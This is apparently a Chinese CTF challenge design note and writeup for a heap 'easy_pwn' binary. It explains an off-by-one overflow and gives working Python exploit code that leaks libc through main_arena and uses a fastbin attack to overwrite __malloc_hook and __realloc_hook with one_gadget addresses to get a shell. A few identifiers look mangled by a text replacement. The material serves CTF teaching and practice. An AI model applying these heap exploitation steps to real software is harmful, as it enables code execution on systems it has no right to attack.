






# 赛题设计说明

## 题目信息：

- 题目名称：easy_pwn
- 预估难度：中等 （简单/中等偏易/中等偏难/困难）
- 编译命令：gcc -z noexecstack -fstack-protector-all -z now -fPIE -pie -s -o easy_pwn easy_pwn.c

## 题目描述：

> 真实的easy_pwn

## 题目考点：

1.fastbin attack
2.malloc hook attack
3.realloc hook attack
4.off-by-one
5.overlap

## 思路简述：

一个常规的堆溢出题，palygame 函数处可以多填充一个字节，造成堆溢出，改写 size，制造 fake chunk，然后 free small chunk，泄露 main_arena 偏移，进而泄露 libc 基地址，在利用 fake chunk 进行 fastbin attack，劫持 malloc hook 和 realloc hook，malloc hook 处用 libc_realloc 加一个适当小偏移覆盖，realloc hook 处用 one gadget 覆盖，再执行 calloc 即可 getshell

## 题目提示：

1. 堆溢出
2. fastbin attack
3. off-by-one
4. play_game 函数存在 off-by-one 长度的漏洞
5. 劫持 malloc hook 和 realloc hook

## 题目环境：

1. Ubuntu 16.04 LTS
2. xinetd + chroot

## 题目 writeup：

1. 检查题目保护，发现保护全开



2.使用 ida 分析，可以发现，里面存在一个堆结构，将堆结构导入


```shell
    struct tickets{
        int flag;
        int size;
        void *ticket_start;
    };
```



3.逆向发现大循环中的第二个函数(sub_E53())中的函数中，sub_E07()函数的返回值 v4 可以比申请的堆的 size 多 1 个字节，而 sub_D73()函数向堆里面写入 v4 长度的内容，因此可以造成 off-by-one。





4.通过 off-by-one 漏洞制造 fake size，进而获得 fake chunk，然后 free samll chunk 获取 main_arena 中的地址，由于没有提供 libc 版本，此处需要自己根据泄露出来的地址确定 libc 版本，泄露出来的地址与 main_arena 起始地址的偏移为 0x58，因此泄露出来的地址减去 0x58，可以得到 main_arena 起始地址，根据 main_arena 起始地址减去 0x10 可以得到**malloc_hook 的地址，根据**malloc_hook 地址的后三位的偏移 b10 可以确定 libc 版本为 2.23

制造 fake chunk 的代码如下：

```shell
    gettickets(0x58) #0
    gettickets(0x40) #1
    payload=p64(0)*11+p8(0x71)
    length=len(payload)+9

    palygame(0,payload,length)

    gettickets(0x80) #2
    payload1=p64(0)*3+p64(0x71)
    length=len(payload1)
    palygame(2,payload1,length)
    gameover(1)

    gettickets(0x60) #1
    payload2=p64(0)*9+p8(0x91)
    length=len(payload2)
    palygame(1,payload2,length)
    gettickets(0x50) #3
    gameover(2)

    leak=u64(lookticket(1)[-8:-1].strip().ljust(8,'\x00'))
    print "malloc hook addr = "+ hex(leak-0x68)
    #确定libc为2.23，libc基址与main_arena起始地址偏移为0x3c4b20
    libc_base=leak-0x3c4b78
    print hex(libc_base)
```



5.泄露出来 libc 基址后，利用 fake chunk 进行 fastbin attack，从而劫持 malloc hook 和 realloc hook，最后 getshell

```shell
    gettickets(0x60)#2
    gameover(2)

    print "malloc hook = "+hex(libc_base + e.symbols["__malloc_hook"]-0x23)
    payload=p64(libc_base+0x3c4aed)
    #payload = p64(libc_base + e.symbols["__mgettickets_hook"]-0x23)
    palygame(1,"a"*0x48+p64(0x71)+payload,0x58)
    #raw_input()
    gettickets(0x60)#4
    gettickets(0x60)#5
    one = [0x4526a,0x45216,0xf02a4,0xf1147]
    payload = "\x00"*0xb  #p8(f)*3
    payload += p64(libc_base + one[3]) #
    payload += p64(libc_base + 0x846c0+0x4)
    #payload += p64(libc_base + e.symbols["__libc_realloc"]+0x4)
    palygame(4,payload+"\x00"*0x10,len(payload)+0x10)

    # print "regettickets hook = "+hex(e.symbols["__regettickets_hook"])
    # print "libc regettickets= "+hex(e.symbols["__libc_regettickets"])
    gettickets(0x10)
    #gettickets(0x1000)

    p.interactive()
```
